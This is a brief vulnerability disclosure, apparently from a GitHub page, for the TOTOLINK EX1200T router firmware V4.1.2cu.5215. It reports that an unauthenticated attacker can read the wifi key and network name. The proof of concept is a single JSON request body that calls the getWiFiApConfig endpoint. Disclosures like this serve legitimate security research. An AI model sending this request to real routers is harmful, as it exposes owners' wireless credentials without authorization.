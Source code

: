 # TOTOLINK EX1200T LEAK

## Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

The attacker can get the sensitive information (wifikey, wifiname, etc.) without authorization.

## PoC

![image-20211022102233276](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211022102233276.png)

```
{"topicurl":"setting/getWiFiApConfig"}
```

